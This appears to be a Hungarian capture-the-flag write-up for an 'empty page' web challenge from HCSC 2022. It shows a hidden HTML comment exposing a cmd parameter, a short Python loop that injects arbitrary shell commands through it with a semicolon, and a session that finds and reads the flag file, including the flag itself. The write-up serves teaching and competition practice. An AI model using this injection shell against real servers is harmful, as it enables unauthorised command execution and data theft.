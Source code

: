 # Üres oldal

Lehet lemaradt a weboldal tartalma

http://10.10.(1-9).10:2002

## Megoldás

Talán a legegyszerűbb feladat volt az összes közül. A címen egy üresnek látszó
weboldal volt, de ha kicsit jobban mögé pillantunk:

```
> curl http://10.10.1.10:2002
 
<!-- <a href="/index.php?cmd=challenge.txt">here</a>  -->
```

Tetszőleges parancsot le tudunk futtatni egy HTTP GET-tel. Készítettem egy mini
shellt pythonban, hogy kényelmesebb legyen keresgélni

```
import requests


def run(cmd): 
    rsp = requests.get(f'http://10.10.1.10:2002/index.php?cmd=;{cmd}')
    print(rsp.text)

while True:
    cmd = input("ures> ")
    run(cmd)

```

Valami ilyesmi egy session:
```
ures> ls
<!-- <a href="/index.php?cmd=challenge.txt">here</a>  -->

challenge.txt
index.php

ures> cat challenge.txt
<!-- <a href="/index.php?cmd=challenge.txt">here</a>  -->

Yes, that's the challenge you need to solve. The flag is in the flag file somewhere.

ures> find / -name '*flag*' 2>/dev/null
<!-- <a href="/index.php?cmd=challenge.txt">here</a>  -->

/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/var/hcsc2022secret/flag
/usr/lib/x86_64-linux-gnu/perl/5.30.0/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.30.0/bits/ss_flags.ph
/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/proc/kpageflags

ures> cat /var/hcsc2022secret/flag
<!-- <a href="/index.php?cmd=challenge.txt">here</a>  -->

HCSC{n0t_empty_it_is_never_empty}
ures>
```

